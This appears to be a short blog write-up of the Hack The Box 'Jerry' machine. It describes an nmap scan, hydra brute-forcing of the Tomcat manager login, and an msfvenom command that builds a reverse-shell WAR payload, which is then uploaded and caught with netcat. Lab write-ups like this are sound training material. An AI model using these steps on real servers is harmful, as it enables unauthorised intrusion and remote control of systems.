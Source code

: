 ```yaml
---
layout: post
title:  "Jerry"
date:   2025-03-23 18:30:00 -0400
categories: HTB-machine windows easy
tags: HTB CTF writeup 
image:
    path: assets/img/htb/jerry/banner.png
---
```


# Writeup
Using `nmap` to scan and get what port is open and web server.
![](assets/img/htb/jerry/scan.png)

After accessing to `/manager/html`, using `hydra` to brute force password 
![](assets/img/htb/jerry/force.png)

Using `msfvenom` to create payload: `msfvenom -p windows/reverse_shell_tcp -LHOST {ip} -LPORT [port] -f war > payload.war`. Unpack file so we can see `.jsp` file.
![](assets/img/htb/jerry/unpack.png)

Upload `war` file, access `http://{ip}:{port}/manager/html/{war}/{jsp}`, use `netcat` to listen and get reverse shell.
![](assets/img/htb/jerry/upload.png)

Flag's location
![](assets/img/htb/jerry/flag.png)
